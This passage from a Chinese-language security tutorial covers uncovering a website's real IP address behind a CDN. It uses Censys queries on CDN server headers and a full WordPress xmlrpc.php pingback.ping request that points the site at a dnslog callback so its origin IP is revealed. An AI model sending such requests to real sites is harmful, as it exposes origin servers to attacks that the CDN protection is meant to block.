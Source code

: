 *   接着从后至前，取四个字节出来：CA AF 17 24
    
*   最后依次转为十进制数 202.175.23.36，即是服务器的真实 ip 地址。
    

###   

### **九、通过 CDN 标头特征值**

很多网站启用 CDN 后，配置了拒绝直接访问真实 IP ，比如 CloudFlare 的提示：

![图片](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb6nCJ68XD0nt6N7ibsGtMLICXsibVjYC6ADNj0by3UO6Gav0XtBfC7lkLrsCPiaBUYBDLkx1dOhicqWdA/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

因此可以通过匹配特征标头的方法，去缩小范围，这里还是使用 Censys 查询：

```


```
`语法: <port>http.get.headers.server:<CDN特征>``eg: 80.http.get.headers.server:cloudflare`
```




```

![图片](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb6nCJ68XD0nt6N7ibsGtMLICjoG9GT1icrLwIUjCPlj3Ff5EiaibGGiasX7qosXjPEhYibdhAjEOeyjKh4Q/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

针对整个互联网的搜索 IP 结果进一步匹配，比如通过 端口、地理位置、banner 特征、反查邮箱、联系方式等等信息，继续精确结果：

![图片](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb6nCJ68XD0nt6N7ibsGtMLICicFblCBxjP7QhViacRKRDDFKF9qZOib0Bo7jAVtvYFY14eROXxFu5FJ4Q/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

![图片](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb6nCJ68XD0nt6N7ibsGtMLICZdJeaXC8Jgzm9muNrlgvlDuLy94wrnHf6keUYtcnaT0ziajKXAMCSYQ/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

###   

### **十、通过 XML-RPC PINGBACK 通信**

*   XML-RPC 是支持 WordPress 与其他系统之间通信的规范，它通过使用 HTTP 作为传输机制和 XML 作为编码机制来标准化这些通信过程。
    
*   在 WordPress 的早期版本中，默认情况下已关闭 XML-RPC，但是从3.5版本开始，默认情况下开启。
    
*   XML-RPC 支持 trackback 和 pingback。
    
*   虽然 WordPress 启用了 REST API 来代替 XML-RPC ，不过 XML-RPX 不会过时的，放心大胆的使用就好，虽然 XML-RPC 这个技术很老了，但依然可以通杀很多网站。
    

配置好 dnslog，POST 请求 XML-RPC：

```


```
`POST /xmlrpc.php HTTP/1.1``Host: domain.com``Cache-Control: max-age=0``Upgrade-Insecure-Requests: 1``User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.110 Safari/537.36``Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8``Accept-Encoding: gzip, deflate``Accept-Language: en,zh-CN;q=0.9,zh;q=0.8``Connection: close``Content-Type: application/x-www-form-urlencoded``Content-Length: 323``<?xml version="1.0" encoding="UTF-8"?>``<methodCall>``<methodName>pingback.ping</methodName>``<params>``<param>``<value><string>http://2vbis4.dnslog.cn</string></value>``</param>``<param>``<value><string>https://domain.com/</string></value>``</param>``</params>``</methodCall>`
```




```
